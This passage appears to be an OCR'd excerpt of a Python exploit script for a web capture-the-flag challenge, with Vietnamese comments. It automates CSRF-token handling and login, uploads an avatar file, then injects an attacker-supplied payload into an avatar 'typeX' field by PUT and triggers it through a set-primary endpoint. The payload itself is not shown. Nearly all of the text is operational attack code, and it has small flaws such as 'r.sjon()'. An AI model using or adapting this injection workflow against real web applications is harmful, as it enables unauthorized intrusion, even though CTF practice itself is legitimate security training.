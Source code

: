 ```python
    print("[+] CSRF Token (Login): ", csrf)
    data = {
        "username": username,
        "password": password,
        "_csrf": csrf
    }
    r = session.post(URL_CHALLENGE + "/login", data=data, allow_redirects=False)
    if r.status_code == 302:
        print("[+] Loggin SuccessFully")
    else:
        print("[!] Login Failed")
        sys.exit(1)

# Upload Hình ảnh
def upload_avartar():
    csrf = get_csrf_token("/avatar-manager")
    print("[+] CSRF Token Avatar Manager: ", csrf)
    with open(AVATAR_FILE_UPLOAD, "rb") as f:
        files = {"file": (AVATAR_FILE_UPLOAD, f, "image/png")}
        headers = {
            "X-CSRF-TOKEN": csrf,
            "X-Requested-With": "XMLHttpRequest"
        }
        r = session.post(URL_CHALLENGE + "/api/upload-file", files=files, headers=headers)
        try:
            res = r.json()
        except Exception as e:
            print("[-] Upload Avartar Failed: ", str(e))
            print(r.text)
            sys.exit(1)
        if res.get("success"):
            avatar_id = res["avatarId"]
            print("[+] Upload Avatar ID: ", avatar_id)
            return avatar_id
        else:
            print("[-] Upload failed:", res.get("message"))
            sys.exit(1)

def injection_payload_trigger(avatar_id, payload):
    csrf = get_csrf_token("/avatar-manager")

    # Đưa payload vào typeX thông qua PUT
    URL_PUT = f"{URL_CHALLENGE}/api/avatars/{avatar_id}"
    data = {
        "typeX": payload,
        "isPrimary" : True
    }
    headers = {
        "Content-Type": "application/json",
        "X-CSRF-TOKEN": csrf,
        "X-Requested-With": "XMLHttpRequest"
    }
    r = session.put(URL_PUT, json=data, headers=headers)
    print("[+] Payload Injection SuccessFully")

    # Thực hiện trigger
    URL_TRIGGER = f"{URL_CHALLENGE}/api/avatars/{avatar_id}/set-primary"
    r = session.post(URL_TRIGGER, headers=headers)
    try:
        res = r.sjon()
    except Exception as e:
        print("[-] Trigger Failed!", str(e))
        print(r.text)
```